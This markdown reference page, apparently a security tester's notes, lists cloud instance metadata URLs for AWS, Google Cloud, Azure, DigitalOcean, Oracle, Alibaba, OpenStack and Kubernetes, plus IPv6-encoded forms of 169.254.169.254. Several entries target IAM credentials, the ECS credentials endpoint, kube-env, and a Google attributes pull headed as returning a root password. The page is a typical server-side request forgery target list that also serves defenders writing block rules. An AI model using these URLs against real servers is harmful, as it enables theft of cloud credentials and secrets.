 ```yaml
---
layout: memory
title: List of various Cloud Metadata Service Addresses
---
```


### IPv6 Tests
    http://[::ffff:169.254.169.254]
    http://[0:0:0:0:0:ffff:169.254.169.254]

### AWS 
> Amazon Web Services (No Header Required) [Source](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)

    http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
    http://169.254.169.254/latest/user-data
    http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
    http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
    http://169.254.169.254/latest/meta-data/ami-id
    http://169.254.169.254/latest/meta-data/reservation-id
    http://169.254.169.254/latest/meta-data/hostname
    http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
    http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key

### ECS Task : 
> https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html

    http://169.254.170.2/v2/credentials/

### Google Cloud (Header Sometimes Required)
> Source:  https://cloud.google.com/compute/docs/metadata
>  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True" on API v1
>  - Most endpoints can be accessed via the v1beta API without a header

    ```  
    http://169.254.169.254/computeMetadata/v1/
    http://metadata.google.internal/computeMetadata/v1/
    http://metadata/computeMetadata/v1/
    http://metadata.google.internal/computeMetadata/v1/instance/hostname
    http://metadata.google.internal/computeMetadata/v1/instance/id
    http://metadata.google.internal/computeMetadata/v1/project/project-id
    ```
    
### kube-env; thanks to JackMc for the heads up on this (https://hackerone.com/reports/341876)
    http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env

### Google allows recursive pulls 
    http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true

### returns root password for Google
    http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json

### Digital Ocean (No Header Required)
> [Source](https://developers.digitalocean.com/documentation/metadata/)

    http://169.254.169.254/metadata/v1.json
    http://169.254.169.254/metadata/v1/ 
    http://169.254.169.254/metadata/v1/id   
    http://169.254.169.254/metadata/v1/user-data
    http://169.254.169.254/metadata/v1/hostname
    http://169.254.169.254/metadata/v1/region   
    http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

### Packetcloud
    https://metadata.packet.net/userdata

### Azure (Header Required)
> Requires Header: "Metadata: true"
Source: https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service
(Old: ) https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/

    http://169.254.169.254/metadata/instance?api-version=2017-04-02
    http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

### Oracle Cloud (No Header Required)
> Source: https://docs.us-phoenix-1.oraclecloud.com/Content/Compute/Tasks/gettingmetadata.htm
    
    http://169.254.169.254/opc/v1/instance/

### Alibaba Cloud
> Source: https://www.alibabacloud.com/help/faq-detail/49122.htm

    http://100.100.100.200/latest/meta-data/
    http://100.100.100.200/latest/meta-data/instance-id
    http://100.100.100.200/latest/meta-data/image-id

### OpenStack/RackSpace 
> Source: https://docs.openstack.org/nova/latest/user/metadata-service.html

    http://169.254.169.254/openstack	 

### Oracle Cloud
> Source:  https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html

    http://192.0.0.192/latest/
    http://192.0.0.192/latest/user-data/
    http://192.0.0.192/latest/meta-data/
    http://192.0.0.192/latest/attributes/

### Kubernetes
> Debug Services (https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/)

    https://kubernetes.default.svc.cluster.local
    https://kubernetes.default

Sources: 
- https://twitter.com/Random_Robbie/status/1072242182306832384
- https://kubernetes.default.svc/metrics
